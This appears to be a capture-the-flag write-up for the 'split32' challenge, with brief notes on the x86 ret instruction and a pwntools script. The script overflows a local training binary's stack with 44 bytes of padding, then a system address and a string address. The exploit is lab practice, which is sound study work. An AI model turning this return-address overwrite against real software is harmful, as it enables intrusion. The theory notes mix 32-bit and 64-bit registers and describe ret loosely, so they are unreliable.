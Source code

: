 # Theory
- When `ret` instruction is executed, whatever `eip` points to whatever `esp` is holding (whatever is at the top of the stack) and `rsp` is incremented by 1 memory cell 
- `ret` is basically
    - pop rcx
    - jmp rcx

# Exploit

```python
#!/bin/python
from pwn import *


# system('/bin/cat')
system_addr = p32(0x0804861a)
bin_cat_str = p32(0x0804a030)


payload = b'A' * 44 
payload += system_addr
payload += bin_cat_str

target = process('./split32')
#target.recvuntil(b'> ')
target.send(payload)
print(target.recv())
target.interactive()
```